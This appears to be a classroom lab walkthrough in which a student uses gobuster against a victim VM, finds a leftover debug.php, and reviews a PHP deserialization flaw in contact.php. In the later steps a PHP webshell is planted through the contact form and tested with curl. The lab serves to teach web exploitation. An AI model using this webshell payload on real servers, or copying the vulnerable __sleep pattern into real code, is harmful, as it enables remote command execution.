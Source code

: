 1. On the attacker-10 vm, open a terminal. To access the attacker-10 vm, on your browser,
   enter the address http://attacker_ip to access the VNC session. You may run ``` docker inspect          <image tag name> ``` to find the container's IP address.

2. Enter the command apt update -y && apt upgrade -y && apt install
   gobuster -y to install a tool called gobuster.

3. Then on the victim-11 vm, open a terminal, type the command
   ```
   sudo apt-get update
   sudo apt-get install net-tools
   ```
   then type the command ifconfig to check the IP of the server.

4. On the attacker-10 vm, open firefox browser, or install any browser you like. Enter
   http://victim_ip to the URL bar to access the VNC session

5. Try going through the website like a normal user, is there anywhere you can exploit,
   anything you can enter?

6. Then, on the attacker vm. use the command gobuster -w
   /wordlist/wordlist_php http://victim_ip to list the directory and hidden
   file on the webserver. Feel free to try other web enumeration tools, and use different
   wordlist as well.

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a
   new file called debug.php running on the website. To open debug.php, use the command
   http://victim_ip/debug.php

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
   source code of debug.php, you can enter the URL: viewsource:http://<victim's IP address>/debug.php?              read=debug.php to view the source code of the
   debug.php.

9. In the source code of debug.php, there are two Get parameters you can manipulate. One
   is called read and the other is execute. read can let you check the source code of the
   websites and execute will allow you to execute file contain PHP source code

10. When you run the gobuster tool, I am sure you have also found another php file called
   contact.php. contact.php is the file where the website will process the contact information
   entered by user, we can see the source code of this file by entering the URL:
   http://<victim's IP address>/debug.php?read=contact.php

11. Upon reviewing the source code of contact.php file, what have you found? There is a
   critical vulnerability in the file, a deserialization vulnerability.
   ```
   <?php
   # Omitted some code
   
   $new_customer = new customer;
   $new_customer->name = $name;
   $new_customer->email = $email;
   $new_customer->comment = $comment;
   $temp = serialize($new_customer);
   
   # Omitted some code
   
   class customer
   {
      public $name;
      public $email;
      public $comment;
      public function __sleep()
      {
         // Write the content to file once the object is serialized
         $filename = $this->name . '_' . $this->email;
         file_put_contents("./user_info/$filename", $this-
   >comment, FILE_USE_INCLUDE_PATH);
      }
   }
   ?>
   ```
12. A closer look at the preceding code reveals that the vulnerability exists in the magic
   function __sleep() defined in the class customer. The logic in the function __sleep()
   shows that once an instance of class customer is serialized, it will write a file to a
   directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
   Recall earlier I asked you to find the parameter you can interact with on the website,
   there is a webpage where you can enter user defined text. To navigate to this page, enter
   the URL http://<victim_ip>/contact.html to access the page.

14. On this page, there are three parameters you can define: name, email, and comment. If
    you still remember the source code of the contact.php file, you can make an educated
    guess that the contact.php will handle the post request sent by contact.html form. If you
    want to verify that, you can also download burpsuites and verify. Or you can also
    examine the source code of the contact.html page to see where the POST request is sent
    to.

16. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
    email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
    entering all the text, click submit to plant the webshell

17. On the attacker VM, use the command curl
    http://<victim's IP address>/user_info/test_user.php?cmd=whoami to test whether the planted
    webshell is working or not.

18. A secure server is running on the address <secure's IP address>, you are welcome to try attacking
    it, but it does not have the deserialization vulnerability and misconfiguration present on
    the victim VM.
